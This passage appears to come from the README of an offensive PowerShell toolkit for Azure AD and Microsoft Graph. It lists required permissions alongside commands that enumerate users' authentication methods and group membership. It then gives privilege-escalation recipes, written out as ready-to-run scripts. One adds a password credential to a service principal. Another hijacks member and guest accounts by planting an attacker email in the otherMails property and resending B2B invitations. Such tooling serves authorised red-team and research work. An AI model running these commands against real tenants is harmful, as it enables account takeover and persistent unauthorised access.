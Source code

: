 ###### Permission: UserAuthenticationMethod.Read.All, UserAuthenticationMethod.ReadWrite.All

Get authen method of a user

```
Get-AAAUserAuthMethod -UserId "hagrid@XXX.onmicrosoft.com"
```

#### Group

###### Permission: GroupMember.Read.All, Group.Read.All, Directory.Read.All, Group.ReadWrite.All, Directory.ReadWrite.All

Get the details of group

```powershell
Get-AAAGroups
Get-AAAGroups -Search "helpdesk"
Get-AAAGroupMembers -GroupId "XXX"
```



## Privilege Escalation

#### Add Credential to Application (PE to application)

###### Permission: Application.ReadWrite.All

Add password credential for application

```powershell
New-AAAAppPassword -ServicePrinciple -AppId 'XXXX'
# Clean up
Remove-AAAAppPassword -ServicePrinciple -AppId 'XXXX' -KeyId 'XXXX'
```

#### Hijack Azure account - *otherMail* properties (PE to non-admin user)

###### Permission: User.ReadWrite.All, Directory.ReadWrite.All (apply to non-admin user)

Permission of privileged directory role:  [[REF-Microsoft permission](https://learn.microsoft.com/en-us/graph/api/resources/users?view=graph-rest-1.0#who-can-update-sensitive-attributes)]  

Hijack normal Azure account (member without mailbox) by editing *otherMail* of target user to convert into B2B user [[REF-BlackHat USA 2022]( https://dirkjanm.io/assets/raw/US-22-Mollema-Backdooring-and-hijacking-Azure-AD-accounts_final.pdf)]. 

```powershell
# Hijack a member without mailbox
$victim = "hagrid29@XXX.onmicrosoft.com"
$attackerMail = "XXX@external.com" 
$DisplayName = "Tommy Cheung"
Set-AAAUserMail -UserId $victim -mail $attackerMail     
New-AAAUserOtherMails -UserId $victim -otherMails $attackerMail
Send-AAAB2BInvitation -action resendInvitation -UserId $victim -mail $attackerMail
Set-AAAUserDisplayname -UserId $victim -DisplayName $DisplayName   
(Get-AAAUser -UserId $victim).identities

# Hijack a guest account
$victim = "XXX"
$attackerMail = "XXX@external.com" 
Set-AAAUserMail -UserId $victim -mail $attackerMail     
New-AAAUserOtherMails -UserId $victim -otherMails $attackerMail
Send-AAAB2BInvitation -action resetRedemption -UserId $victim -mail $attackerMail

```